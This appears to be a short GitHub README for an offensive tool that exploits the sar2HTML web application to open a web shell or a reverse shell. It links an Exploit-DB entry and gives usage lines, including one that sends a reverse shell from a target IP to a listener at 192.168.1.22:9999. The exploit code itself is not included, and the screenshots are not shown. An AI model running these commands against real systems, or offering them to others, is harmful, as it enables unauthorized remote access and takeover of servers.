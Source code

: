 # sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Details

You can use the old exploit if not try a new folder (admin may have moved the install directory)
https://www.exploit-db.com/exploits/47204


# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder

# Exmaples:

./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)

./sar2HTML -ip 192.168.1.81 (Baisc Web Shell)

Basic check

![](assets/notvuln.png)

WebShell

![](assets/webshell.png)

ReverseShell

![](assets/shell.png)
